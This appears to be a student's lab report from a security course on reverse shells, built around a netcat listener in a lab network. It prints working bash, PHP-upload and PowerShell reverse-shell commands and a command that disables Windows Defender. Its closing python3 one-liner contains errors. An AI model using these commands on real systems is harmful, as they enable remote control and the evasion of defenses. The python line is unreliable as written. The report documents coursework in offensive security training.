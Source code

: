 ### Overview
---------
This lab we were continuing to work with web shells, however we are now switching to reverse shells. We were first tasked with connecting to a machine called sec335-rocky and creating a reverse shell to connect to a netcat listener that was running. From there we were tasked with uploading a reverse shell to the pippen system that was exploited last week. Following this we were tasked with running a reverse shell on windows but had to first turn of windows defender to do this. Finally, we were tasked with creating a reverse shell using python3. I will go furth into detail on the techniques that I used to complete this lab below. 

### Reflection
------
This was my first time taking a dive into the world of reverse shells and it was a lot of fun and left me wanting more. I definetaly want to explore these more and I feel like it would be an incredibly useful tool to have under my belt later on. I was a little bit confused on how to create a reverse shell using a php as I have not explored how to use php much however, a few resouces online helped me understand that I was essentially using a bash script within a php script. Understanding this concept made everything much easier. 

### Bash Reverse Shell 
------
The first reverse shell that we used was a somewhat simple one just getting us warmed up for the rest of the lab. To start we ran a netcat listener on one terminal using the command `nc -nlvp 4449` meaing that we were listening on port 4449. On another terminal we first logged into our rocky system using ssh and then we ran the command `/bin/bash -i >& /dev/tcp/10.0.17.129/4449 0>&1`. The IP address in that command is the DHCP address of our host machine and the 4449 is the port that we specified when opening the netcat listener. From there we were connected and able to control the rocky machine from our host machine. 

### Uploading a Reverse Shell
------
For this part of the lab, we were tasked with uploading a reverse shell to the pippen server that we exploited last week. To do this, I first had to create the php script that would be uploaded. To do this I used the command in the section above and just built a very simple php script around that, this is what that looked like:

      <?php
      $output1 = exec("/bin/bash -i >& /dev/tcp/10.0.17.129/4449 0>&1");
      
As mentioned in the reflection I know very little php and would love to explore this further. Now with that created I had to login to the Pippen system using the FTP server that I am able to exploit with the anonymous user logon. Once logged in, I navigated to the upload directory and uploaded this script. From there I started another netcat listener using the same port as above. Once the netcat listener was running I navigated to the URL of the file that I uploaded on the pippen FTP server and was connected to the machine. 

### Powershell Reverse Shell
-------
For this task we had to run a reverse shell on our windows box that connected back to our linux box. To do this I needed to again start a netcat listener linsteing on port 4449. Then on the windows machine run run the command `powershell -c "$client = New-Object System.Net.Sockets.TCPClient('10.0.17.129',4449); $stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0}; while(($i = $stream.Read($bytes, 0, $bytes.length)) -ne 0){;$data= (New-Object -TypeName System.Text.ASCIIENcoding).GetString($bytes,0,$i);$sendback = (iex $data 2>&1 | Out-String);$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()"` on the command prompt instead of powershell. However this will not work because Windows Defender blocks this. Reference the section below to turn it off and after disabling it the reverse shell will work. 

###### Turning off Windows Defender over Powershell
To disable Windows Defender simply run the command `Set-MpPreference -DisableRealTimeMonitoring $true` over Powershell. 

### Python3 Reverse Shell
-------
For this final task we were asked to create a reverse shell using python3 to be able to connect back to our linux machine from the rocky machine again. To do this I first had to again create a netcat listener on my linux machine and I was again listening on port 4449. From the we again had to ssh into the rocky machine and run the reverse shell. Below is the command that I used to run the reverse shell:

      python3 -c 'import socket; from subprocess import run; from os import dup2;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.0.17.150"4449));           dub2(s.fileno(),0); dub2(s.fileno(),1); dub2(s.fileno(),2);run(["/bin/bash","-i"]);'
      
After running this I was again connected to the rocky machine through the netcat listener. 
      

